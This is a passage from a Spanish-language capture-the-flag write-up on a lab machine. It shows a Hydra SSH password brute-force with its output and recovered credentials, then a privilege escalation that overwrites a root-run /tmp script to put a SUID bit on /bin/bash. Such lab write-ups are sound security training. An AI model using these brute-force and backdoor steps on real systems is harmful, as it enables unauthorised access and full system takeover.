 Vemos que la contrasenya es `password1` , la misma que habiamos encontrado al principio.

Una vez descomprimido el `.zip`, obtenemos un archivo `.txt` que parece un diccionario de contraseñas, así que lo utilizaremos para intentar obtener acceso por `SSH` con uno de los tres usuarios que habíamos identificado antes.

```bash
hydra -L users.txt -P password16.txt ssh://172.17.0.2 -t 64
```

Info:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-02 20:17:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 102 login tries (l:3/p:34), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-02 20:17:41
```

Tenemos la contrasenya del usuario `grooti` : `YoSoYgRoOt`

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Nada que indique una vía clara de escalada. Vamos a comprobar qué archivos podemos encontrar en el sistema.

En el directorio `/tmp` hallamos un archivo llamado `malicious.sh`, el cual crea logs temporales y los elimina al cabo de 2 segundos.

Si conseguimos modificar el contenido de este archivo, probablemente podremos ejecutar código arbitrario para escalar privilegios.

```bash
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > malicious.sh
```
Hemos alterado el script para que otorgue permisos SUID al binario `/bin/bash`. Ahora solo queda esperar unos segundos y probar el comando `/bin/bash -p` , lo que debería proporcionarnos una shell con privilegios de root.


![root](../images/image-1.png)

Ya somos root! 
